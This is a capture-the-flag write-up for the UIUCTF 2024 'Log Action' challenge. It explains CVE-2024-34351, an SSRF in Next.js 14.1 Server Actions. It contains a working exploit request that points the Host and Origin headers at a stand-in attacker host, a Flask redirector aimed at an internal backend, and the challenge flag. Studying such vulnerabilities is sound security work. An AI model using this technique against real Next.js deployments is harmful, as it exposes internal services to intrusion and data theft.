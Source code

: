 #nextjs #ssrf
# Log Action
## Description
I keep trying to log in, but it's not working :'(
[http://log-action.challenge.uiuc.tf/](http://log-action.challenge.uiuc.tf/)
Downloads
- [log-action.zip](https://uiuctf-2024-rctf-challenge-uploads.storage.googleapis.com/uploads/eb5b17b1e10f9f5838cb671042bbf9ee7baaa71c0c00bcd0935fd34c420b0139/log-action.zip)
## Overview
Simple login page
## Road to flag
The flag is retured by an internal server -> SSRF
### Dependencies
- NextJS 14.1
	- Vulnerable to CVE-2024-34351 
		- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps
		- https://github.com/azu/nextjs-CVE-2024-34351
## Code review		  
 Logout handler
```jsx
import Link from "next/link";
import { redirect } from "next/navigation";
import { signOut } from "@/auth";

export default function Page() {
  return (
    <>
      <h1 className="text-2xl font-bold">Log out</h1>
      <p>Are you sure you want to log out?</p>
      <Link href="/admin">
        Go back
      </Link>
      <form
        action={async () => {
          "use server";
          await signOut({ redirect: false });
          redirect("/login");
        }}
      >
        <button type="submit">Log out</button>
      </form>
    </>
  )
}
```
It uses a **Server Action** that allows to execute code at server side.
`/logout` is not protected by the auth middleware, that redirects only on successful login, this makes it exploitable.

A server action that responds with a redirect calls this function:
```js
async function createRedirectRenderResult(
  req: BaseNextRequest,
  res: BaseNextResponse,
  originalHost: Host,
  redirectUrl: string,
  basePath: string,
  staticGenerationStore: StaticGenerationStore
) {
  res.setHeader('x-action-redirect', redirectUrl)
  [...]
  // If we're redirecting to another route of this Next.js application, we'll
  // try to stream the response from the other worker path. When that works,
  // we can save an extra roundtrip and avoid a full page reload.
  // When the redirect URL starts with a `/`, or to the same host as application,
  // we treat it as an app-relative redirect.
  const parsedRedirectUrl = new URL(redirectUrl, 'http://n')
  const isAppRelativeRedirect =
    redirectUrl.startsWith('/') ||
    (originalHost && originalHost.value === parsedRedirectUrl.host)

  if (isAppRelativeRedirect) {
    [...]
    const forwardedHeaders = getForwardedHeaders(req, res)
    forwardedHeaders.set(RSC_HEADER, '1')
    
    const proto =
      staticGenerationStore.incrementalCache?.requestProtocol || 'https'

    // For standalone or the serverful mode, use the internal origin directly
    // other than the host headers from the request.
    const origin =
      process.env.__NEXT_PRIVATE_ORIGIN || `${proto}://${originalHost.value}`

    const fetchUrl = new URL(
      `${origin}${basePath}${parsedRedirectUrl.pathname}${parsedRedirectUrl.search}`
    )
    [...]
    try {
      const response = await fetch(fetchUrl, {
        method: 'GET',
        headers: forwardedHeaders,
        next: {
          // @ts-ignore
          internal: 1,
        },
      })

      if (response.headers.get('content-type') === RSC_CONTENT_TYPE_HEADER) {
        [...]
        return new FlightRenderResult(response.body!)
      } else {
        [...]
      }
    } catch (err) {
      [...]
    }
  }

  return RenderResult.fromStatic('{}')
}
```

If the redirect url starts with `/` the server will fetch the result of the redirect at server side and return back.

## Exploitation
- SSRF via Host Header and Origin
Sending the following request triggers the SSRF:
```
POST /logout HTTP/1.1
Host: ATTACKER
Origin: https://ATTACKER
Accept: text/x-component
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22logout%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Content-Type: multipart/form-data; boundary=---------------------------30523002528298602961754182131
Content-Length: 331
Connection: keep-alive
Cookie: authjs.csrf-token=3a88d122c42873637d81db77edf8571e94e78697010629b27d9d1632876b75ad%7C250eafa2f8899729450d0228f76b528c95b155ca24e929d61e934ce559b299b5

-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="1_$ACTION_ID_c3a144622dd5b5046f1ccb6007fea3f3710057de"


-----------------------------30523002528298602961754182131
Content-Disposition: form-data; name="0"

["$K1"]
-----------------------------30523002528298602961754182131--
```

Simple server that redirects to the flag
```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://backend/flag.txt')

if __name__ == '__main__':
    app.run()
```

`uiuctf{close_enough_nextjs_server_actions_welcome_back_php}`